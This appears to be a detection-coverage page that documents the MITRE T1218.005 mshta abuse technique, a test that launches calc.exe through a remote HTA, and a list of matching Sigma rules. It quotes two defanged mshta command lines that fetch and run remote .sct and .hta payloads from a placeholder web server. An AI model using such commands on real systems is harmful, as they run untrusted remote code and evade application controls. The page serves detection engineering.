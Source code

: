 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta Executes Remote HTML Application (HTA)
## OS
  - windows


## Description:
Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.


## Executor
powershell

# Sigma Rule
 - proc_creation_win_susp_web_request_cmd.yml (id: 9fc51a3c-81b3-4fa7-b35f-7c02cf10fd2d)

 - posh_ps_web_request.yml (id: 1139d2e2-84b1-4226-b445-354492eba8ba)

 - proc_creation_win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - proc_creation_win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_shell_spawn_susp_program.yml (id: 3a6586ad-127a-4d3b-a677-1e6eacdf8fde)

 - proc_creation_win_shell_spawn_mshta.yml (id: 772bb24c-8df2-4be0-9157-ae4dfa794037)

 - proc_creation_win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - net_connection_win_powershell_network_connection.yml (id: 1f21ec3f-810d-4b0e-8045-322202e22b4b)

 - net_connection_win_binary_github_com.yml (id: 635dbb88-67b3-4b41-9ea5-a3af2dd88153)



[back](../index.md)
